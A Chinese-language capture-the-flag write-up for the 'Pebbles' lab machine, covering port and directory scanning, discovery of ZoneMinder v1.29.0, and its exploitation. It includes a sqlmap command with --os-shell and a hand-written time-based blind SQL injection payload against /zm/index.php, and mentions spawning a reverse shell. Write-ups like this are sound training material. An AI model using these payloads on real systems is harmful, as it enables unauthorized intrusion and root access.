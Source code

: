 ```yaml
---
description: Linux - Easy    ZoneMinder Console v1.29.0 / SQL盲注
---
```


# ✔️ Pebbles

## 建立立足点

### 信息收集

* Nmap枚举开放端口：

```bash
nmapm -sC -sV -p- -oA pebbles 192.168.244.52 --open
```

* 简单尝试输入IP地址查看是否有Web页面，发现有个pebbles登录框，尝试几个弱口令后登录失败，所以暂时先搁置：

<figure><img src="../.gitbook/assets/Snipaste_2024-06-15_19-31-12.png" alt=""><figcaption></figcaption></figure>

* 枚举该Web页面是否有其他隐藏文件/目录，使用gobuster扫描后发现一个/zm目录：

```bash
gobuster dir -u http://192.168.244.52 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

<figure><img src="../.gitbook/assets/Snipaste_2024-06-15_20-41-21.png" alt=""><figcaption></figcaption></figure>

* 发现了一个正在运行的程序：ZoneMinder Console，其版本号为：v1.29.0

<figure><img src="../.gitbook/assets/Snipaste_2024-06-15_20-51-56.png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

* 查找相关漏洞，发现该版本的ZoneMinder有个SQL注入的可利用漏洞：

<figure><img src="../.gitbook/assets/Snipaste_2024-06-15_20-55-37.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 查看下载好的漏洞利用文件，指出/zm/index.php页面有注入漏洞，也给出了具体的Payload，并建议使用sqlmap会更容易操作，因此两种方法如下：

#### 方法1：sqlmap

* sqlmap太耗时，很鸡肋...
* 先拦截POST请求包，修改后保存文件为：sqli.req

```bash
sqlmap -r sqli.req -p limit -dbms mysql --os-shell --technique S
```



#### 方法2：手工注入

```bash
# Payload
view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)'#&minTime=1466674406.084434
```



### GET SHELL

* 用sqlmap获得shell后，查看当前权限发现已经是root权限了，但是获得的shell使用起来实在是太难受了，所以执行一个反弹shell，之后查找flag即可：











{% hint style="info" %}
本例不需要进行权限提升。

<mark style="color:red;">**sqlmap就是他妈的神经病！！！**</mark>
{% endhint %}



